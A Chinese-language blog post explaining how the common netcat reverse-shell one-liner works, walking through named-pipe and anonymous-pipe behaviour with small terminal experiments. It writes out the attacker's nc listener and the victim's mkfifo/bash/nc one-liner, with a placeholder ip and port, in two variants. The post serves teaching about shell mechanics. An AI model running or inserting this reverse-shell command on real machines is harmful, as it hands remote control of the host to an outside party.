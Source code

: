```yaml
---
layout: post
title:  "对于nc反弹shell的一些疑惑"
date:   2021-03-21 11:13:57 +0800
author: MP4Four
keywords: nc bash anonymous-tunnel
---
```


### 一次平平无常的nc反弹shell操作如下

**attack machine:**

```bash
$nc -l port -v
```

**victim machine:**

```bash
$rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc ip port &>/tmp/f
```

等价于

```bash
$rm /tmp/f;mkfifo /tmp/f;/bin/bash -i 2>&1 </tmp/f | nc ip port &>/tmp/f
```

之前看到这个方式知道可以连接，但仍存在一些疑惑，主要是对匿名管道和管道的工作方式不太理解，以为cat会进行阻塞，那么后面的命令便一直在等待，但其实发现并不是。

### 匿名管道不会进行阻塞

这里所说的阻塞是加入前一个命令因为I/O请求阻塞了，后一个命令依然会继续执行，不会等待前一个命令的输出才运行。看下面这个简单例子

```bash
$cat /tmp/f | echo "xxx"
```

（省略了mkfifo这一步骤）由于/tmp/f初始为空，所以cat会进入阻塞状态，等待来自管道的数据，而后面的echo "xxx"并并没有因此收到影响，而是直接执行，因此terminal会输出一个xxx，同时cat仍然在等待着管道f填充数据

### 尝试和bash联动

```bash
$cat /tmp/f | $(which bash) -i
```

此命令执行完后没有输出，但并不意味着什么也没发生，当前termial已经新开了一个bash，并且等待着从管道f读取命令



新开一个terminal（tab or window皆可），叫它termial2吧（前一个就叫terminal1），在**terminal2**输入

```bash
$echo "date -u" > /tmp/f
```

则terminal1输出此命令和此命令的结果



这里发现在**读取一次输入后自动就exit了**，但是我们的nc反弹shell并不会执行一次命令就gg。这是因为terminal1这条命令的意思就是“**从管道里读入数据，将数据作为bash的输入命令，然后输出bash执行结果至stdout，程序结束**”，没有后续的输入输出，按照逻辑程序自然就结束了。

接下来尝试了下面这个命令 (**terminal1**)

```bash
$cat /tmp/f | $(which bash) -i &>/tmp/f
```



**terminal2**

```bash
$echo "pwd" > /tmp/f
```

结果发现terminal1没有任何输出，在**terminal2**里尝试读取一下管道里的信息

```bash
$cat /tmp/f
```

满屏幕不断滚动，基本逻辑就是“**从管道f里读入数据，bash解释执行此数据，然后将结果重定向至管道f**”，此时管道f里数据不为空，cat接着输出，cat有输出就意味着bash又有输入，于是发现程序并没有退出逻辑，所以周而复始，就死循环了。除了第一个是pwd的正常输出外，其余基本都是错误输出（当然了，pwd的输出很难成为一个有效命令）。

此时再回顾下面命令

```bash
$cat /tmp/f | /bin/bash -i 2>&1 | nc ip port &>/tmp/f
```

即使初始管道为空，这条命令执行后也会立即和attack machine建立nc连接，此时在attack machine输入命令，回车，命令通过tcp连接发送给victim machine的nc，nc输出被重定向至f管道，然后cat从f管道将命令读出来，传递给bash作为输入，bash执行此条命令后将结果输出传递给nc，nc将结果返回给attack machine，就达成了远程获取shell的成就！

### 画了一幅图，大概长这样

![nc-mechanism](/assets/nc-mechanism.png)

如有错误，欢迎指出